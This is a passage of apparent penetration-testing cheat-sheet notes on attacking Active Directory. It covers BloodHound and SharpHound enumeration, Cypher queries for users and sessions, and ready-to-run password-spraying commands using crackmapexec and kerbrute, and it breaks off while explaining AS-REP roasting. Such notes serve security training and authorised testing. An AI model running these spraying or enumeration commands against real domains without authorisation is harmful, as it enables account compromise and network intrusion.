 Open terminal and type:
```
sudo neo4j console
```

After neo4j has been loaded, use another terminal and type:
```
bloodhound
```

#### Sharphound:
```
Invoke-BloodHound -CollectionMethod All
```

#### Analyzing Data

##### Raw Queries

###### Return Computers:
```
MATCH (m:Computer) RETURN m
```

###### Return Users:
```
MATCH (m:User) RETURN m
```

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

# Attacking

Reference: [Wikipedia](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)
![](img/Kerberos_protocol.png)

## Password Attacks

### Password Spraying
```
crackmapexec smb 192.168.10.10 -u users.txt -p 'password123!' -d corp.com --continue-on-success
```

### Kerbrute
```
kerbrute passwordspray -d test.local domain_users.txt password123
```

## AS-REP Roasting

The first step of the authentication process via Kerberos is to send an AS-REQ. Based on this request, the domain controller can validate if the authentication is successful. If it is, the domain controller replies with an AS-REP containing the session key and TGT. This step is also commonly referred to as _Kerberos preauthentication_ and prevents offline password guessing.

